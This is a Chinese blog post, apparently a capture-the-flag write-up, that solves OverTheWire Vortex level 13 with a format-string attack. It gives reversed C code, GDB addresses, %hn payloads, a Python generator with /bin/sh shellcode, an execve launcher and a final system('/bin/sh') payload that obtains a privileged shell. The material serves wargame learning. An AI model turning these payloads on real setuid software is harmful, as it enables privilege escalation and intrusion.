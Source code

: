 ```yaml
---
title: OverTheWire Vertex Level 13 → Level 14
author: Ripples
layout: post
permalink: /overthewire-vertex-level-13/
views:
  - 260
categories:
  - CTF
tags:
  - buffer overflow
  - reversing
  - vortex
  - wargame
  - WriteUp
---
```

<p style="text-indent: 2em;">
  由于要当码农，已经好几天没有时间做vortex了，现在刚有了点时间，回来继续奋战，结果真是被虐的一塌糊涂。
</p>

<p style="text-indent: 2em;">
  原题参见<a href="http://overthewire.org/wargames/vortex/vortex13.html" target="_blank">这里</a>。
</p>

<p style="text-indent: 2em;">
  首先还是逆向，得到仿写的程序如下：
</p>

<!--more-->

<pre class="brush:cpp;toolbar:false">char&nbsp;*allowed&nbsp;=&nbsp;"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789%.$x0A";

void&nbsp;vuln()
{
&nbsp;&nbsp;&nbsp;&nbsp;int&nbsp;size&nbsp;=&nbsp;0x14;
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*s&nbsp;=&nbsp;malloc(size);
&nbsp;&nbsp;&nbsp;&nbsp;fgets(s,&nbsp;size,&nbsp;stdin);
&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;(int&nbsp;i&nbsp;=&nbsp;0;&nbsp;i&nbsp;&lt;=&nbsp;0x13;&nbsp;++i)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(!strchr(allowed,&nbsp;s[i]))&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit(1);
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;printf(s);
&nbsp;&nbsp;&nbsp;&nbsp;free(s);
}

int&nbsp;main(int&nbsp;argc,&nbsp;char&nbsp;*argv[])
{
&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(argc&nbsp;!=&nbsp;0)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit(1);
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;extern&nbsp;char&nbsp;**environ;
&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;(char&nbsp;**p&nbsp;=&nbsp;environ;&nbsp;*p;&nbsp;++p)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;(char&nbsp;*s&nbsp;=&nbsp;p;&nbsp;*s;&nbsp;++s)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;*s&nbsp;=&nbsp;0;
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;(char&nbsp;**p&nbsp;=&nbsp;argv;&nbsp;*p;&nbsp;++p)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;(char&nbsp;*s&nbsp;=&nbsp;p;&nbsp;*s;&nbsp;++s)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;*s&nbsp;=&nbsp;0;
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;vuln();
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;0;
}</pre>

<p style="text-indent: 2em;">
  看到这个程序，真的是不得不说，这也太狠了点吧，清空了参数和环境变量，然后只给了19个字符的输入空间，这19个字符的取值范围还被限定了，要通过这19个字符来控制程序，还是不可运行的栈，这真是shellcode也不止这点长度了。反正如果就我个人看到的第一感而言，这程序保护的简直无懈可击。
</p>

<p style="text-indent: 2em;">
  这个程序想来应该很明确是通过printf的格式化字符串溢出攻击，但通过这19个字符我们应该使程序跳到哪里去却是一个巨大的问题。
</p>

<p style="text-indent: 2em;">
  仔细观察程序，我们会发现，我们可以跳转到char *s = malloc(size)这一句那里，然后在跳转之前，我们先修改好size，这样，程序就会再次运行vuln，为我们开辟出一块更大的空间，突破了长度的限制。然后，由于在strchr的检查循环中，固定是i <= 0<a></a>x13而不是i < size，这样，我们就可以在20个字符后面接上非allowed中的字符了，看起来似乎柳暗花明了。
</p>

<p style="text-indent: 2em;">
  然而，printf的格式化字符串溢出，需要在栈中某个地方存储修改的目标地址，可是argv和env全都被清空了，如何将地址传递进来成了最大的问题，迈不出这第一步，一切想法都是浮云。
</p>

<p style="text-indent: 2em;">
  在纠结了N久之后，终于发现，除了argv和env，其实还有一个东西能把数据传进去，只是一直被忽略了，那就是在env后面，还存储了一份文件名，而linux下，文件名几乎可以为任意字符。这样，我们就可以通过文件名来携带我们需要的不可见字符了。
</p>

<p style="text-indent: 2em;">
  首先在文件名后加上16个0xff，gdb后发现，为了对齐，需要在最后再加3个字符。然后vuln的栈桢ebp为0xffffde38，文件名的第一个0xffffffff地址为0xffffdfe4，可以计算出，printf的时候，%117$对应着这个0xffffffff，我们也可以通过运行程序后输入%117$8x来测试。
</p>

<p style="text-indent: 2em;">
  然后，查看到我们需要跳转到的目标地址为0<a></a>x08048551，而printf本身的返回地址为0x080485d7，那么为了节省格式化字符串的长度，我们只需要能修改最后一个字节即可，但是由于最少为%hn，即我们需要修改最后两个字节。
</p>

<p style="text-indent: 2em;">
  首先修改运行程序名：
</p>

<pre class="brush:bash;toolbar:false">cp&nbsp;./vortex13&nbsp;`python&nbsp;-c&nbsp;&#39;print&nbsp;"vortex"&nbsp;+&nbsp;"x0cxdexffxffx28xdexffxff"&nbsp;+&nbsp;"a"&nbsp;*&nbsp;11&#39;`</pre>

<p style="text-indent: 2em;">
  其中0xffffde0c的位置上存储着printf的返回地址，0xffffde28的位置上存储着size。
</p>

<p style="text-indent: 2em;">
  这样想要修改返回地址，我们需要输入%34129x%117$hn，修改size，我们需要输入%118$n，这样最终得到输入字符串为：
</p>

<pre class="brush:plain;toolbar:false;">%34129x%117$hn%118$n</pre>

<p style="text-indent: 2em;">
  然而，数完长度之后，瞬间有种要崩溃的即视感，竟然不多不少，正好20个字符，超出限制的19个字符一个字符，而这个长度已经极限了，那么也就是说，我们这个方案告吹。
</p>

<p style="text-indent: 2em;">
  再仔细观察fgets(s, size, stdin)对应的汇编代码：
</p>

<pre class="brush:plain;toolbar:false;">&nbsp;&nbsp;&nbsp;0x804855f&nbsp;&lt;vuln+27&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;0x804a030,%eax
&nbsp;&nbsp;&nbsp;0x8048564&nbsp;&lt;vuln+32&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;%eax,%edx
&nbsp;&nbsp;&nbsp;0x8048566&nbsp;&lt;vuln+34&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;-0x10(%ebp),%eax
&nbsp;&nbsp;&nbsp;0x8048569&nbsp;&lt;vuln+37&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;%edx,0x8(%esp)
&nbsp;&nbsp;&nbsp;0x804856d&nbsp;&lt;vuln+41&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;%eax,0x4(%esp)
&nbsp;&nbsp;&nbsp;0x8048571&nbsp;&lt;vuln+45&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;-0xc(%ebp),%eax
&nbsp;&nbsp;&nbsp;0x8048574&nbsp;&lt;vuln+48&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;%eax,(%esp)
&nbsp;&nbsp;&nbsp;0x8048577&nbsp;&lt;vuln+51&gt;:	call&nbsp;&nbsp;&nbsp;0x8048430&nbsp;&lt;fgets@plt&gt;</pre>

<p style="text-indent: 2em;">
  我们只要跳到0x804856d处，fgets的长度限制就会变，至于变成多少，就要看跳转过来时eax的状况了，而实际情况中，这个时候eax的值不小。但是这样我们确实把fgets的size参数改掉了，但同时，我们也丢失了fgets的第三个参数stream，但仔细观察程序+gdb，我们会惊喜的发现，后面的函数都没有用到第三个参数的位置，那么也就是说，只要我们不修改，第三个参数应该和上一次fgets的时候一样，这正如我们所愿。
</p>

<p style="text-indent: 2em;">
  于是乎，通过以下输入：
</p>

<pre class="brush:plain;toolbar:false">%34157x%117$hn
%34129x%117$hn%118$n</pre>

<p style="text-indent: 2em;">
  我们完全控制了我们可以输入的字符长度。
</p>

<p style="text-indent: 2em;">
  由于栈不可运行，我们将shellcode通过第三次输入，放到堆中，然后跳转执行即可。
</p>

<p style="text-indent: 2em;">
  通过gdb，得到第一次malloc分配出来的地址为0x0804b008，第二次为0x0804b020，于是得到输入如下：
</p>

<pre class="brush:plain;toolbar:false">%34157x%117$hn
%34129x%117$hn%118$n
%45108x%117$hnaaaaaa{shellcode}</pre>

<p style="text-indent: 2em;">
  其中，45108=0xb034，而shellcode的起始地址为0x0804b034，运行：
</p>

<pre class="brush:bash;toolbar:false">cp&nbsp;/vortex/vortex13&nbsp;`python&nbsp;-c&nbsp;&#39;print&nbsp;"/tmp/vortex"&nbsp;+&nbsp;"x0cxdexffxffx28xdexffxff"&nbsp;+&nbsp;"a"&nbsp;*&nbsp;11&#39;`
./generate.py&nbsp;&gt;&nbsp;payload
cat&nbsp;payload&nbsp;|&nbsp;./startup</pre>

<p style="text-indent: 2em;">
  generate.py：
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python

shellcode&nbsp;=&nbsp;"jx0bXx991xc9Rh//shh/binx89xe3xcdx80"
print(&#39;%34157x%117$hn&#39;)
print(&#39;%34129x%117$hn%118$n&#39;)
print(&#39;%45108x%117$hn&#39;&nbsp;+&nbsp;&#39;aaaaaa&#39;&nbsp;+&nbsp;shellcode)</pre>

<p style="text-indent: 2em;">
  startup.c：
</p>

<pre class="brush:cpp;toolbar:false">#include&nbsp;&lt;unistd.h&gt;

int&nbsp;main(int&nbsp;argc,&nbsp;char&nbsp;*argv[])
{
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*arg[]&nbsp;=&nbsp;{NULL};
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*env[]&nbsp;=&nbsp;{NULL};
&nbsp;&nbsp;&nbsp;&nbsp;execve("/tmp/vortex""x0cxdexffxffx28xdexffxff""aaa",&nbsp;arg,&nbsp;env);
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;0;
}</pre>

<p style="text-indent: 2em;">
  然而，运行后，结果并不如所愿，竟然崩溃了，最后无奈的发现，堆也是不可运行的。
</p>

<p style="text-indent: 2em;">
  于是乎，我们采用和上关一样的方式，调用system("/bin/sh")，system地址为0xf7e67280，利用输入传入字符串/bin/sh，得到payload如下：
</p>

<pre class="brush:plain;toolbar:false">%34157x%117$hn
%29312x%117$hn%34150x%118$hn%47194x%119$hn%22468x%120$hn/bin/sh</pre>

<pre class="brush:bash;toolbar:false">cp&nbsp;/vortex/vortex13&nbsp;`python&nbsp;-c&nbsp;&#39;print&nbsp;"/tmp/vortex"&nbsp;+&nbsp;"x0cxdexffxffx0exdexffxffx14xdexffxffx16xdexffxffaaa"&#39;`</pre>

<p style="text-indent: 2em;">
  startup.c：
</p>

<pre class="brush:cpp;toolbar:false">#include&nbsp;&lt;unistd.h&gt;

int&nbsp;main(int&nbsp;argc,&nbsp;char&nbsp;*argv[])
{
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*arg[]&nbsp;=&nbsp;{NULL};
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*env[]&nbsp;=&nbsp;{NULL};
&nbsp;&nbsp;&nbsp;&nbsp;execve("/tmp/vortex""x0cxdexffxffx0exdexffxffx14xdexffxffx16xdexffxff""aaa",&nbsp;arg,&nbsp;env);
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;0;
}</pre>

<p style="text-indent: 2em;">
  这样，运行startup，输入payload，我们成功拿到shell。然而，不幸再次降临，我们拿到的shell是没有权限的，稍微一想便会发现，由于我们的cp命令，文件已经变了，权限没了，一切都白瞎。
</p>

<p style="text-indent: 2em;">
  思前想后，想用链接，然而，创建硬链接会得到如下错误：
</p>

<pre class="brush:plain;toolbar:false">ln:&nbsp;failed&nbsp;to&nbsp;create&nbsp;hard&nbsp;link&nbsp;`/tmp/vortexf336377377 16336377377 24336377377 26336377377aaa&#39;&nbsp;=&gt;&nbsp;`/vortex/vortex13&#39;:&nbsp;Invalid&nbsp;cross-device&nbsp;link</pre>

<p style="text-indent: 2em;">
  那就只能创建软链接了（不过软链接似乎在某些情况下，gdb进去会发现运行程序名还是/vortex/vortex13），反正至少用startup调用的时候不会，这样，我们就成功拿到shell。
</p>

<p style="text-indent: 2em;">
  本题虽然解决的不是很满意，但在被虐了N久之后，至少勉强也算过了。
</p>
